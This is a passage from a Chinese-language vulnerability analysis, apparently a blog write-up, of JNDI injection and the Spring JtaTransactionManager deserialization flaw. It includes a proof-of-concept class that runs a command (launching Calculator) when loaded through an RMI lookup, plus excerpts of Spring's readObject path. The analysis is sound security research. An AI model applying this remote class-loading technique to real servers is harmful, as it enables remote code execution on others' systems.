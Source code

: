 这里我们创建了一个HTTP服务后又创建了一个RMI服务,并且RMI服务提供了对ExportObject类的查询，这里ExportObject类的源码为：

```java
public class ExportObject {
    public ExportObject() {
        try {
            Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator");
        } catch(Exception e) {
            e.printStackTrace();
        }
    }
}
```

其功能便是执行我们验证rce时常用的调用计算器的功能。

要加载ExportObject类我们可以使用以下的代码:

```java
Context ctx=new InitialContext();
ctx.lookup("rmi://127.0.0.1:1099/Object");
//System.out.println("loaded obj");
```

执行以下代码后可以发现ExportObject类的构造函数被调用，弹出了计算器。

## Spring框架中的JNDI反序列化漏洞

导致JNDI反序列化问题的类主要是 `org.springframework.transaction.jta.JtaTransactionManager` 类。

跟进该类的源码中的readObject()函数:

```java
private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
    ois.defaultReadObject();
    this.jndiTemplate = new JndiTemplate();
    this.initUserTransactionAndTransactionManager();
    this.initTransactionSynchronizationRegistry();
}
```

继续跟进initUserTransactionAndTransactionManager()函数

```java

protected void initUserTransactionAndTransactionManager() throws TransactionSystemException {
if (this.userTransaction == null) {
    if (StringUtils.hasLength(this.userTransactionName)) {
        this.userTransaction = this.lookupUserTransaction(this.userTransactionName);
        this.userTransactionObtainedFromJndi = true;
    } else {
        this.userTransaction = this.retrieveUserTransaction();
        if (this.userTransaction == null && this.autodetectUserTransaction) {
            this.userTransaction = this.findUserTransaction();
        }
    }
}
```
